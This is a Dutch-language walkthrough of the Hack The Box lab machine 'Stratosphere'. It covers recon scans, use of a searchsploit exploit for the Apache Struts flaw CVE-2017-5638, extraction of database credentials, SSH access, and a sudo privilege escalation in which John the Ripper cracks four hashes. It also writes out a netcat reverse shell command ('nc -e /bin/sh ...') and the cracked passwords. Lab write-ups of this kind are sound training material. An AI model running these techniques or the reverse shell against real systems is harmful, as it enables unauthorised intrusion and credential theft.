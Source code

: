 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

Het eerste dat ik doe als ik user ben op een machine is kijken of die user bestanden mag openen als root, dit doe ik doormiddel van de commando `` sudo -l ``

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/9.PNG" />

Het ziet er naar uit dat ik `` /home/richard/test.py `` mag uitvoeren als root. eens kijken wat dat script precies doet:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/10.PNG" />

Dit ziet er naar uit dat dit een soort <l>Solve-the-hash(?)</l> challenge is en zodra je alles goed heb het /root/success.py uitvoert. In het script staat precies welke algoritme bij welke hash hoort. ```John``` is een tool die dit voor mij kan oplossen.

Eerste hash: `` john --format=raw-md5 --wordlist=~/rockyou.txt hash # kaybboo!`` <br>
Tweede hash: `` john --format=raw-sha1 --wordlist=~/rockyou.txt hash # ninjaabisshinobi`` <br>
Derde  hash: `` john --format=raw-md4 --wordlist=~/rockyou.txt hash # legend72`` <br>
Vierde hash: `` john --format=raw-blake2 --wordlist=~/rockyou.txt hash # Fhero6610 `` <br>

#### Ook wel geinig om te vermelden is dat je persé de volledige paden moet gebruiken zoals aangegeven in sudo -l
##### Dus geen `` sudo python test.py`` , maar `` /usr/bin/python3 /home/richard/test.py ``
